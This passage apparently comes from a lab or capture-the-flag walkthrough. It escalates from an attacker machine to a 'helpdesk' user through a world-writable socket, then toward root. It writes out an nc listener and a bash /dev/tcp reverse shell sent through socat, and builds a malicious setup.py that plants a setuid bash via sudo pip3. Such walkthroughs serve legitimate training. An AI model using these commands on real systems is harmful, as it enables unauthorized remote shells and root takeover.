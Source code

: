 **Interpretation (short):** `serve.sh` starts a world-writable UNIX socket (`helpdesk.sock`). Each connection executes `handler.sh`. Any user can send commands — a potential escalation vector.

---

## Escalating to `helpdesk` via the writable socket

On the attacker machine start a listener:

```bash
nc -lvnp 5555
```

Send a reverse shell payload through the socket:

```bash
echo "/bin/bash -i >& /dev/tcp/192.168.56.101/5555 0>&1" | socat - /opt/helpdesk-socket/helpdesk.sock
```

Listener shows a new connection and shell:

```
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 59514
bash: cannot set terminal process group (676): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.2$ id
uid=1001(helpdesk) gid=1001(helpdesk) groups=1001(helpdesk)
```

> We are now the `helpdesk` user.

---

## Privilege escalation to root — abusing sudo `pip3 install`

Check sudo rights:

```bash
sudo -l
```

Relevant output:

```
User helpdesk may run the following commands on helpdesk:
    (ALL) NOPASSWD: /usr/bin/pip3 install --break-system-packages *
```

This allows `helpdesk` to run `pip3 install` as root **without a password**. `setup.py` executes arbitrary code — route to root.

### Build malicious package

Create folder and `setup.py`:

```bash
mkdir /tmp/evil && cd /tmp/evil
cat > setup.py << 'EOF'
from setuptools import setup
import os

os.system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash")

setup(
    name="evil",
    version="0.1",
    description="evil package",
    py_modules=[]
)
```